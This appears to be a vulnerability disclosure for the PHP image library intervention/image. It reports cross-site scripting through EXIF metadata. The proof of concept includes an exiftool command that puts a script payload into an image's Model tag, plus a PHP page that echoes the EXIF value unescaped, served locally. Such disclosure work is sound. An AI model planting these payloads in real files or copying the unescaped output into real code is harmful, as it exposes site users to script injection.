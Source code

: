 # Description

`intervention/image` is an image handling and manipulation library. This package is vulnerable to XSS via reading the exif data from image.

# POC

1. Create a project dir in your htdocs folder
2. Install the package using composer. [here](http://image.intervention.io/getting_started/installation)
3. Create the image payload using any exiftool. But below is how I created it
```
1. Download exiftool using this tool(https://exiftool.org/)
2. Install it(https://exiftool.org/install.html)
3. Modify the image to add 'Model' key then value '<script>alert(document.domain)</script>'
4. Open terminal -> change directory to where the image is located
5. run this command 'exiftool -Model="<script>alert(document.domain)</script>" imagefilename.jpg'
6. Move it in your project root dir
```
4. Create a page.php file on your project root dir then copy and paste this code below
```
<?php
require 'vendor/autoload.php';

// import the Intervention Image Manager Class
use Intervention\Image\ImageManagerStatic as Image;

$filename = "./imagefilename.jpeg";

// read all existing data into an array
$data = Image::make($filename)->exif();

// read model of the camera
$name = Image::make($filename)->exif('Model');

echo $name;
```
5. Open terminal in your project root dir, then run command `php -S 127.0.0.1:8080`
6. Open a browser then navigate to `http://127.0.0.1:8080/page.php` to trigger the XSS payload



